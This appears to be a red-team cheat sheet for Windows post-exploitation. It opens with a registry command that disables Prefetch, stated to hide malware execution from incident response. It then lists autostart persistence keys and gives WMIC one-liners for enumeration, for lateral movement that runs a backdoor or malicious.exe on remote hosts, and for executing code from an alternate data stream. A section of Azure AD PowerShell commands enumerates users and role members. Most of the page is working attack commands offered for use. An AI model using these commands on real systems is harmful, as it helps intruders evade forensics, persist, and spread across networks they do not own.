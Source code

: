 # :fu: Anti-Forensics

## Disabling Prefetch:

What are Prefetch Files? Prefetch files are great artifacts for forensic investigators trying to analyze applications that have been run on a system. Windows creates a prefetch file when an application is run from a particular location for the very first time. This is used to help speed up the loading of applications. But if we disable Prefetch files, we can hide execution patterns of our malware to hinder incident response.

The following command requires Administrator privileges, but disables Prefetch within the registry. While this tactic may appear anomalous to network defenders such as clearing Security Event Logs, it will obfuscate the malware's execution history.

```
reg add "HKLM\SYSTEM\CurrentControlSet\Control\Session Manager\Memory Management\PrefetchParameters" /v EnablePrefetcher /t REG_DWORD /f /d 0
```

## Windows AutoStart Persistence Locations:

Locations for automatically starting at system boot or user logon

```
NTUSER.DAT\Software\Microsoft\Windows\CurrentVersion\Run
NTUSER.DAT\Software\Microsoft\Windows\CurrentVersion\RunOnce
SOFTWARE\Microsoft\Windows\CurrentVersion\RunOnce
SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon\Userinit
HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer\Run
HKEY_LOCAL_MACHINE\Software\Microsoft\Windows NT\CurrentVersion\Winlogon\Shell
HKCU\Software\Microsoft\Windows\CurrentVersion\Run\Windows Debug Tools-%LOCALAPPDATA%\
HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Svchost
software\microsoft\windows\currentversion\run\microsoft windows html help
%AppData%\Microsoft\Windows\Start Menu\Programs\Startup
HKCU\Software\Microsoft\Windows\CurrentVersion\Run\IAStorD
HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\RunServicesOnce 
HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\RunServicesOnce 
HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\RunServices 
HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\RunServices
```

## WMIC Tricks and Tips:

Enumeration

```
wmic environment list
wmic useraccount get /ALL /format:csv
wmic process get caption,executablepath,commandline /format:csv
wmic qfe get description,installedOn /format:csv
# PowerShell
Invoke-WmiMethod -Path #{new_class} -Name create -ArgumentList #{process_to_execute}
```

Lateral Movement

```
wmic /node:<IP> /user:administrator process call create "cmd.exe /c <backdoor>"
```

Uninstall Program

```
wmic /node:"#{node}" product where "name like '#{product}%%'" call uninstall
```

Execute a .EXE file stored as an Alternate Data Stream (ADS)

```
wmic.exe process call create "c:\ads\notsus.txt:malicious.exe"
```

Execute malicious.exe on a remote system

```
wmic.exe /node:"192.168.0.99" process call create "malicious.exe"
```

## Offline Microsoft Azure Active Directory Harvesting with PowerShell:

This script demonstrates how to interact with Microsoft Azure Active Directory via PowerShell.  You will need an Azure AD account first, which is free: http://azure.microsoft.com/en-us/services/active-directory/

```
# Import the Azure AD PowerShell module:
Import-Module -Name Azure
# List the cmdlets provided by the module (750+):
Get-Command -Module Azure 
Add-AzureAccount
Get-AzureAccount
Get-AzureSubscription

# Import the Azure AD PowerShell module for MSOnline:
Import-Module -Name MSOnline
# List the cmdlets provided by the MSOnline module:
Get-Command -Module MSOnline

# Connect and authenticate to Azure AD, where your username will
# be similar to '<yourusername>@<yourdomain>.onmicrosoft.com':
$creds = Get-Credential
Connect-MsolService -Credential $creds


# Get subscriber company contact information:
Get-MsolCompanyInformation


# Get subscription and license information:
Get-MsolSubscription | Format-List *
Get-MsolAccountSku   | Format-List *


# Get Azure AD users:
Get-MsolUser


# Get list of Azure AD management roles:
Get-MsolRole


# Show the members of each management role:
Get-MsolRole | ForEach { "`n`n" ; "-" * 30 ; $_.Name ; "-" * 30 ; Get-MsolRoleMember -RoleObjectId $_.ObjectId | ForEach { $_.DisplayName } }
```
